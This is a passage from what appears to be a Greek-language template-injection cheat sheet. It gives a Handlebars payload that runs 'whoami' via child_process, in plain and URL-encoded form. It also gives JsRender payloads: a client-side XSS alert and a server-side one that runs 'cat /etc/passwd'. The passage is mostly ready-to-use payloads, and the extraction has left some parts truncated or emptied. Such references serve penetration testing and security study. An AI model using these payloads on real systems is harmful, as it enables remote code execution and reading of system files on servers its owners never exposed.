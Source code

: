 ```java
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}

URLencoded:
%7B%7B%23with%20%22s%22%20as%20%7Cstring%7C%7D%7D%0D%0A%20%20%7B%7B%23with%20%22e%22%7D%7D%0D%0A%20%20%20%20%7B%7B%23with%20split%20as%20%7Cconslist%7C%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epush%20%28lookup%20string%2Esub%20%22constructor%22%29%7D%7D%0D%0A%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%23with%20string%2Esplit%20as%20%7Ccodelist%7C%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epush%20%22return%20require%28%27child%5Fprocess%27%29%2Eexec%28%27whoami%27%29%3B%22%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7Bthis%2Epop%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%23each%20conslist%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%23with%20%28string%2Esub%2Eapply%200%20codelist%29%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%7Bthis%7D%7D%0D%0A%20%20%20%20%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%20%20%20%20%7B%7B%2Feach%7D%7D%0D%0A%20%20%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%20%20%7B%7B%2Fwith%7D%7D%0D%0A%20%20%7B%7B%2Fwith%7D%7D%0D%0A%7B%7B%2Fwith%7D%7D
```
**Περισσότερες πληροφορίες**

- [http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html](http://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html)

### JsRender (NodeJS)

| **Template** | **Περιγραφή**                         |
| ------------ | --------------------------------------- |
|              | Evaluate and render output              |
|              | Evaluate and render HTML encoded output |
|              | Comment                                 |
| and          | Allow code (disabled by default)        |

- \= 49

**Client Side**
```python
{{:%22test%22.toString.constructor.call({},%22alert(%27xss%27)%22)()}}
```
**Εξυπηρετητής**
```bash
{{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
```
**Περισσότερες πληροφορίες**
